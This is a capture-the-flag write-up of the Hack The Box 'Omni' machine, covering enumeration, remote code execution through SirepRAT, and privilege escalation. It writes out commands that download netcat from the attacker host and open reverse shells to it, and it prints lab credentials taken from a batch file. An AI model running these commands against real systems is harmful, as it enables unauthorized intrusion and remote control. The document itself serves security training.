 # Box 



![omni](img/Screenshot_2020-12-24_17-26-56.png)

https://www.hackthebox.eu/home/machines/profile/271

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177



# Table of Contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -Pn -sC -oN result 10.10.10.204
```

![image-20201226121741505](img/image-20201226121741505.png)

When we connect to the web page : 

![image-20201226122024496](img/image-20201226122024496.png)

After researching for "windows device portal" we find a software that we can use to do a RCE : https://github.com/SafeBreach-Labs/SirepRAT 

## Exploitation

I've tried to upload and use nc.exe but it doesn't work so I try to use the 64 bits one. 

To upload our nc we use : 

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -c  \"Invoke-WebRequest \"http://10.10.14.28:4444/nc64.exe\" -OutFile \"C:\Windows\Temp\nc64.exe\"  \" "
```

Now we can get our reverse_shell : 

```python
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --as_logged_on_user --return_output  --cmd "cmd.exe" --args  "/c C:\Windows\Temp\nc64.exe 10.10.14.28 1234 -e cmd.exe"  --vv
```

![image-20201226122638863](img/image-20201226122638863.png)



## Post-Exploitation

### User



Let's upload our enumeration script jaws-enum.ps1.

Nothing is suspicious except for a file called "r.bat" which is a weird name for a .bat file 

We also saw a path with a user folder and administrator :

![image-20201226132943029](img/image-20201226132943029.png)

let's see what's inside the r.bat file : 

```bash
type  "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
```

![image-20201226131942878](img/image-20201226131942878.png)

We got credentials :

```powershell
net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz
```

Now we can authenticate on the webpage.

![image-20201226134815187](img/image-20201226134815187.png)

​                          

We can see a "Run command" page (http://10.10.10.204:8080/#Run%20command)

We can use our previous nc64.exe to get a shell with app user 

```powershell
C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.14.28 1234
```

it seems that we have an access denied. 

I reupload the file thanks to the run command page in the app folder that we discovered earlier.

```powershell
powershell -c "Invoke-WebRequest -Uri \"http://10.10.14.28:4444/nc64.exe\" -OutFile \"C:\Data\Users\app\nc64.exe\"" 
```

Execute our reverse_shell :

```powershell
C:\Data\Users\app\nc64.exe -e powershell.exe 10.10.14.28 1234
```

![image-20201226134056626](img/image-20201226134056626.png)

Now let's type the user.txt file.

![image-20201226134125813](img/image-20201226134125813.png)

It seems that the files are encoded thanks to the clixml utility.

We can decode it easily with theses commmands : 

```bash
$Credential = Import-Clixml -Path C:\Data\Users\app\user.txt
$Credential.GetNetworkCredential().Password
```

![image-20201226135903728](img/image-20201226135100716.png)

### Root



You need to do the same with the admin crdential that we found earlier, authenticate, run the command on the webpage, get a reverse_shell, et decode the clixml file.

Rooted.

